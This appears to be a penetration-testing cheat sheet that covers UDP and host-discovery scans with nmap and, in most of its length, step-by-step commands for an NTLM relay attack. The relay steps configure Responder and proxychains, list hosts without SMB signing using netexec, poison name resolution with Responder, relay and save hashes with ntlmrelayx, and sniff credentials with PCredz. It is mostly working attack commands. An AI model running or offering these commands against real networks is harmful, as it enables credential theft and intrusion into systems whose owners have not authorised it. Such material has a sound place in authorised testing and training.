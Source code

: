 ```
tmp=$(mktemp); sudo nmap -Pn -sU -iL targets.txt -p 1-1024,5353,1900 -vvv -oA UDP
```

```
sudo nmap -Pn -sU -iL up-hosts.txt -p 1-1024,5353,1900 -vvv | grep "/open" | awk '{ print $2 }' > UDP.txt
```

## Capturing relays - SMB Signing Not Required

1. Disable SMB and HTTP in Responder.conf:

```bash
sudo sed -i 's/SMB = On/SMB = Off/g' /etc/responder/Responder.conf
sudo sed -i 's/HTTP = On/HTTP = Off/g' /etc/responder/Responder.conf

# OR edit manually with:
nano /etc/responder/Responder.conf
```

2. Change the proxychains config

```bash
sudo sed -i 's/9050/1080/g' /etc/proxychains4.conf

# OR edit manually with:
sudo nano /etc/proxychains4.conf
```

At the bottom of the config to: `socks4 127.0.0.1 1080`

3. Make targest.txt with all in-scope targets/subnets and find online hosts

```bash
sudo nmap -sn -iL targets.txt -oG - | grep Up | cut -d' ' -f2 > up-hosts.txt
```

4. Use CME/NetExec to generate a list of hosts that has SMB signing not required (--gen-relay-list)

```bash
sudo netexec smb up-hosts.txt --gen-relay-list relay.txt
```

5. Run Responder, NTLMRelayX. and PCredz (in different tabs/panes) to capture hashes

```bash
# Responder
sudo python3 /usr/share/responder/Responder.py -I eth0 -PDv --lm
# Note, if you see a lot of Wpad requests, switch it from -PDv to -Dwv

# NTLMRelayX
sudo python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -tf relay.txt -socks -smb2support -i -of relyed-hashes.txt

# PCredz
sudo apt install python3-pip libpcap-dev && sudo pip3 install Cython python-libpcap
sudo python3 ./Pcredz -i eth0 -v
```
